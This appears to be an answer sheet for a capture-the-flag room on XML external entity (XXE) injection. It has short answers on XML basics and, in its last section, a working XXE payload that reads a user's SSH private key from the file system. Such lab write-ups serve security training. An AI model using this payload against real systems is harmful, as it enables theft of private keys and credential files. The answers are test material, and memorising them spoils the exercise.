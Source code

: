 

### Section 1

#1Full form of XML
```
eXtensible Markup Language
```

#2 Is it compulsory to have XML prolog in XML documents?
```
No
```

#3Can we validate XML documents against a schema?
```
yes
```

#4 How can we specify XML version and encoding in XML document?
```
XML Prolog
```

### Section 2

#1 How do you define a new ELEMENT? 
```
!ELEMENT
```
#2How do you define a ROOT element?
```
!DOCTYPE
```

#3 How do you define a new ENTITY?
```
!ENTITY
```

## Section 3
#1 What is the name of the user in /etc/passwd
```
use the payload
```

#2 Where is falcon's SSH key located?
```
/home/falcon/.ssh/id_rsa
```

#3 What are the first 18 characters for falcon's private key
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```